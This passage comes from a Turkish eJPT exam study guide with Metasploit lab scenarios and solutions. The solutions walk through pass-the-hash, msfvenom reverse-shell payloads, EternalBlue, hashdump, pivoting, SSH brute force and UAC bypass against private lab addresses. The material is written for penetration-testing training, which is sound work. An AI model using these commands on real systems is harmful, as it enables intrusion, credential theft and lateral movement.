msf6 exploit(...) > set PASSWORD BulunanŞifre
msf6 exploit(...) > set PAYLOAD php/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > exploit
```

> [!TIP]
> **Password Reuse:** `wp-config.php` dosyasındaki veritabanı şifresini admin panelinde de deneyin — adminler genellikle aynı şifreyi kullanır.

</details>

---

<div id="senaryo-6"></div>

## 🟤 Senaryo 6: Pass-the-Hash ile Yatay Hareket

**Durum:** İlk Windows makineden `hashdump` ile Administrator'ın NTLM hash'ini elde ettiniz. Ağda ikinci bir Windows makine (`10.10.10.8`) tespit ettiniz.

---

### ❓ Soru 22: Elde ettiğiniz NTLM hash'i **kırmadan**, doğrudan kullanarak ikinci makineye sızınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Modülü arama: search psexec
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.10.10.8
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
msf6 exploit(windows/smb/psexec) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set LHOST tun0
msf6 exploit(windows/smb/psexec) > set LPORT 4445
msf6 exploit(windows/smb/psexec) > exploit
```

**Neden çalışıyor:** Windows şifreleri doğrularken düz metin yerine NTLM hash kullanır. `SMBPass` alanına `LM_Hash:NTLM_Hash` formatında hash yazılabilir.

</details>

---

<div id="senaryo-7"></div>

## ⚫ Senaryo 7: Msfvenom Payload & Multi Handler

**Durum:** Hedef sisteme dosya yükleme imkânınız var (FTP, web upload vb.) ancak doğrudan çalışan bir exploit bulamadınız.

---

### ❓ Soru 23: Hedef Windows makine için msfvenom ile reverse shell payload'ı üretip, Metasploit'te dinleyici kurunuz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

**Adım 1: Payload Üret (Kali Terminali)**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe
```

**Adım 2: Multi/Handler Dinleyici Kur (msfconsole)**
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > exploit -j
```

**Adım 3:** Payload'ı hedefe yükleyin (FTP, upload formu vb.) ve çalıştırın. Bağlantı yakalanır.

> [!CAUTION]
> `msfvenom` ve `multi/handler` ayarları (payload yolu, LHOST, LPORT) **BİREBİR AYNI** olmalıdır! Farklı olursa bağlantı yakalanamaz.

</details>

---

### ❓ Soru 24: Farklı hedef platformları için doğru msfvenom formatını seçiniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

| Hedef | Komut |
| :--- | :--- |
| **Windows** | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe` |
| **Linux** | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf` |
| **PHP (Web)** | `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f raw -o shell.php` |
| **Java WAR** | `msfvenom -p java/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f war -o shell.war` |

</details>

---

<div id="senaryo-8"></div>

## 🔶 Senaryo 8: Tam Zincir — Dış Ağdan İç Ağa Full Chain

**Durum:** Saldırgan makineniz (`10.10.14.2`) ile aynı ağda bir Windows makine (`10.10.10.5`), bu makinenin ikinci ağ kartı üzerinden erişilen bir iç ağda (`10.1.1.0/24`) bir Linux makine var. Tüm zinciri tamamlayınız.

> [!IMPORTANT]
> **Topluluk Notu:** eJPT sınavında en çok puan getiren ve en çok takılınan senaryo budur. Pivotlama yapamayan sınavı geçemez.

---




---

### ❓ Soru 25: Dış ağdaki Windows makineyi ele geçiriniz. Administrator'ın NTLM hash'i nedir?

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# 1. Zafiyet kontrolü (Arama: search ms17_010 type:auxiliary)
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(...) > set RHOSTS 10.10.10.5
msf6 auxiliary(...) > run
# [+] Host is likely VULNERABLE

# 2. Exploit (Arama: search eternalblue)
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set RHOSTS 10.10.10.5
msf6 exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > exploit

# 3. Hash dump
meterpreter > hashdump
# Administrator:500:aad3b435...:e02bc503...:::
```

</details>

---

### ❓ Soru 26: Windows makinenin ikinci ağ kartını tespit edip, iç ağa pivotlama kurunuz. İç ağda canlı hostları ve açık portları tarayınız.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# 1. İkinci ağ kartını bul
meterpreter > ipconfig
# Beklenen ipconfig çıktısı (İkinci ağ kartı/bacağı 10.1.1.5 tespit edilir):
# Interface  1
#   IP Address  : 10.10.10.5
# Interface  2
#   IP Address  : 10.1.1.5

# 2. Rota ekle
meterpreter > background
# Rota modülünü arat ve kullan (Arama: search autoroute)
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run
# [+] Route added to 10.1.1.0/24

# 3. Rotayı doğrula
msf6 > route print

# 4. İç ağı tara (Arama: search portscan)
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(...) > set RHOSTS 10.1.1.0/24
msf6 auxiliary(...) > set PORTS 21,22,80,445,3389,8080
msf6 auxiliary(...) > set THREADS 50
msf6 auxiliary(...) > run
```

</details>

---

### ❓ Soru 27: İç ağdaki Linux makineye (`10.1.1.12`, port 22 açık) SSH brute force yapıp sızınız ve `/root/flag.txt` dosyasının içeriğini elde ediniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# 1. SSH Brute Force (Arama: search ssh_login)
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(...) > set RHOSTS 10.1.1.12
msf6 auxiliary(...) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
msf6 auxiliary(...) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(...) > run
# [+] 10.1.1.12:22 - Success: 'root:toor'
# [*] Command shell session 2 opened

# 2. Shell'i Meterpreter'a yükselt
msf6 > sessions -u 2
# [*] Meterpreter session 3 opened

# 3. Flag'i oku
msf6 > sessions -i 3
meterpreter > cat /root/flag.txt
```

</details>

---

### ❓ Soru 28: Normal kullanıcı (`student`) yetkisiyle Meterpreter oturumu elde ettiniz. SYSTEM yetkisine yükseliniz.

<details>
<summary>🔑 <b>Çözüm Adımları ve Beklenen Çıktı</b></summary>

```bash
# Adım 1: Otomatik deneme
meterpreter > getsystem
# Başarılı ise → bitti.

# Adım 2: getsystem başarısız → UAC Bypass
meterpreter > background
# UAC Bypass modülünü arat ve seç (Arama: search bypassuac type:exploit)
msf6 > use exploit/windows/local/bypassuac_fodhelper
msf6 exploit(...) > set SESSION 1
msf6 exploit(...) > set LHOST tun0
msf6 exploit(...) > set LPORT 4445
msf6 exploit(...) > exploit
# Yeni session açılır → o session'a geç → getsystem dene

# Adım 3: Hâlâ olmadı → Local Exploit Suggester (Arama: search local_exploit_suggester)
meterpreter > background
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(...) > set SESSION 1
msf6 post(...) > run
# [+] exploit/windows/local/ms16_032... : The target appears to be vulnerable.
# Önerilen exploit'i kullan
```

</details>

---

## 📋 Hızlı Referans: Sınavda En Çok Kullanılan Komutlar

| Kategori | Komut | Ne Zaman |
| :--- | :--- | :--- |
| **Zafiyet Tespiti** | `use auxiliary/scanner/smb/smb_ms17_010` | SMB açık Windows gördüğünde |
| **EternalBlue** | `use exploit/windows/smb/ms17_010_eternalblue` | MS17-010 zafiyeti doğrulandığında |
| **PsExec** | `use exploit/windows/smb/psexec` | Şifre veya hash elde ettiğinde |
| **Hash Dump** | `hashdump` | SYSTEM olduktan sonra |
| **Kiwi** | `load kiwi` → `creds_all` | Plaintext şifre lazımsa |
| **Flag Ara** | `search -f *flag*` | Her makineye girdikten sonra |
| **Dosya İndir** | `download c:\\path\\file` | Flag/config dosyası bulduktan sonra |
| **İkinci Ağ** | `ipconfig` (Windows) / `ifconfig` (Linux) | Her makineye girdikten sonra |
| **Pivotlama** | `use post/multi/manage/autoroute` | İkinci ağ kartı tespit ettiğinde |
| **İç Ağ Tarama** | `use auxiliary/scanner/portscan/tcp` | Rota ekledikten sonra |
| **Proxy** | `use auxiliary/server/socks_proxy` | Nmap/tarayıcı iç ağa lazımsa |
| **Proxychains** | `proxychains nmap -sT -Pn ...` | SOCKS proxy kurulduktan sonra |
| **Port Forward** | `portfwd add -l PORT -p PORT -r IP` | Spesifik bir servise erişim lazımsa |
| **Brute Force** | `use auxiliary/scanner/ssh/ssh_login` | Exploit bulamadığında |
| **Shell Yükselt** | `sessions -u SESSION_ID` | Düz shell'i Meterpreter yapmak için |
| **Yetki Yükselt** | `getsystem` | SYSTEM olmak için |
| **Msfvenom** | `msfvenom -p ... LHOST= LPORT= -f ... -o ...` | Payload üretmek için |
| **Dinleyici** | `use exploit/multi/handler` | Msfvenom payload'ı yakalamak için |

---

> [!TIP]
> **Sınav Günü Taktikleri (Topluluk Tavsiyesi):**
> 1. **Soruları önce okuyun** — 35 sorunun hepsini okuyarak hangi makinelerden ne bekleneceğini anlayın
> 2. **Her bulduğunuz veriyi not alın** — IP'ler, hash'ler, şifreler, flag'ler
> 3. **Dinamik sorulara hemen cevap verin** — Bazı cevaplar lab instance'ına özgüdür, makine resetlenirse değişebilir
> 4. **Takılırsanız enumeration'a geri dönün** — Kaçırdığınız bir port veya servis olabilir
> 5. **Pivotlama pratiği yapın** — Sınavı geçen herkes "autoroute + proxychains hayat kurtarıcı" diyor

---
👤 **GitHub:** [onurcapn](https://github.com/onurcapn)
